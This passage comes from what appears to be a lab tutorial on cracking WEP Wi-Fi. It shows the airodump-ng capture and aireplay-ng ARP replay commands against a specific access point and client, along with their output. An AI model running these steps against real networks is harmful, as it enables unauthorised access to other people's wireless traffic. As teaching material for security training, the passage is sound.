 We can test to see if our interface is in monitor mode with the `iwconfig` utility.

```shell
iwconfig

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=30 dBm
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off

```

* * *

#### Performing the Attack

To begin, we scan our target access point using `airodump-ng` and capture the communication into a file. We specify our interface in monitor mode with `wlan0mon`, the channel our access point is running on with `-c`, and the name/path of our capture file with the `-w` argument.

```shell
airodump-ng wlan0mon -c 1 -w WEP

10:00:17  Created capture file "WEP-01.cap".

 CH  1 ][ Elapsed: 12 s ][ 2024-08-05 10:00

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:D1:AC:E1:21:D1  -47 100      149        7    0   1   11   WEP  WEP         HackTheWifi

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:D1:AC:E1:21:D1  4A:DD:C6:71:5A:3B  -29    1 - 5      0        6

```

The above command will continuously scan the target access point and capture the communication, saving it into a file named `WEP-01.cap`. If there were multiple access points (APs) available and we wanted to focus on one specifically, we would use the `-b` option followed by the BSSID of the target AP.

In a second terminal, we can launch the ARP request replay attack using `aireplay-ng`. We specify the ARP request replay attack mode with `-3`, the BSSID of the target AP with `-b`, and the client MAC address with `-h`. Once a valid ARP request is captured, the tool will replay it automatically.

```shell
sudo aireplay-ng -3 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 4A:DD:C6:71:5A:3B
10:01:29  Waiting for beacon frame (BSSID: B2:D1:AC:E1:21:D1) on channel 1
Saving ARP requests in replay_arp-0805-100129.cap
You should also start airodump-ng to capture replies.
Read 99 packets (got 0 ARP requests), sent 0 packets...

```
